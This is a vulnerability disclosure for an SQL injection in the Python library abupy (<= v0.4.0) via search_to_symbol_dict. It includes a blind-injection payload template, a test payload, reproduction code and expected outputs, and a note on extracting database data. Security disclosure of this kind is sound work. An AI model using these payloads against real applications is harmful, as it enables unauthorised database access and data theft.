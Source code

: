 Vulnerability Product: abupy <= v0.4.0  
Vulnerability version: <= v0.4.0  
Vulnerability type: SQL Injection  
Vulnerability Details:  
Vulnerability location: abupy.MarketBu.ABuSymbol.search_to_symbol_dict

SQL Injection in abupy <= v0.4.0 causes arbitrary SQL code execution 

## [](#header-3)PROVE: 

Payload: ```"us10101' union select case when {CODE YOU WANNA EXEC, RETURN TRUE OR FALSE} then 'usJASNW' else 'usTROVW' end where ''='"```  
Test_payload: ```"us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"```  
Usage: ```abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='")```  

Firstly download abupy latest version(v0.4.0)
```
pip install abupy
```

Secondly import abupy.MarketBu.ABuSymbol, and call abupy.MarketBu.ABuSymbol.search_to_symbol_dict with test_payload as argument
```py
import abupy.MarketBu.ABuSymbol
print(abupy.MarketBu.ABuSymbol.search_to_symbol_dict("us10101' union select case when sqlite_version() = '3.31.1' then 'usJASNW' else 'usTROVW' end where ''='"))
```
(abupy.MarketBu.ABuSymbol.search_to_symbol_dict is a functional api which author mentioned in the comments of the function, It is legal and normal for users and programmers to call this function, proof: https://github.com/bbfamily/abu/blob/master/abupy/MarketBu/ABuSymbol.py -> line: 200)  
```py
    symbol搜索对外接口，全匹配symbol code，拼音匹配symbol，别名匹配，模糊匹配公司名称，产品名称等信息
    eg：
        in：
        search_to_symbol_dict('黄金')
        out：
        {'002155': '湖南黄金',
         '600489': '中金黄金',
         '600547': '山东黄金',
         '600766': '园城黄金',
         '600988': '赤峰黄金',
         'ABX': '巴里克黄金',
         'AU0': '黄金',
         'DGL': '黄金基金-PowerShares',
         'DGLD': '黄金3X做空-VelocityShares',
         'DGP': '黄金2X做多-DB',
         'DGZ': '黄金做空-PowerShares',
         'DZZ': '黄金2X做空-DB',
         'EGO': '埃尔拉多黄金公司',
         'GC': '纽约黄金',
         'GEUR': 'Gartman欧元黄金ETF-AdvisorShares ',
         'GLD': '黄金ETF-SPDR',
         'GLL': '黄金2X做空-ProShares',
         'GYEN': 'Gartman日元黄金ETF-AdvisorShares',
         'HMY': '哈莫尼黄金',
         'IAU': '黄金ETF-iShares',
         'KGC': '金罗斯黄金',
         'LIHR': '利希尔黄金',
         'PRME': '全球黄金地段房地产ETF-First Trust Heitman',
         'RGLD': '皇家黄金',
         'UGL': '黄金2x做多-ProShares',
         'UGLD': '黄金3X做多-VelocityShares'}
    :param search: eg：'黄金'， '58'
    :param fast_mode: 是否尽快匹配，速度优先模式
    :return: symbol dict
```


Finally you can find the result is `{'JASNW': 'JASON INDS INC'}`  
if you replace `sqlite_version() = '3.31.1'` with `sqlite_version() != '3.31.1'`  
you can find the result is `{'TROVW': 'TROVAGENE INC'}`

proved the result is determined by payload  
proved sql code execution  

POC: https://github.com/Leeyangee/leeya_bug/blob/main/abupy_poc.py

## [](#header-3)HARM: 

Programmers may mistakenly use abupy.MarketBu.ABuSymbol.search_to_symbol_dict in this library as part of the backend of the web application, allowing attackers to call the function and return sensitive database data.  

The above payload is just an example, attackers can construct a complex payload to obtain complete database sensitive information in a way similar to sql blind injection

discovered by leeya_bug
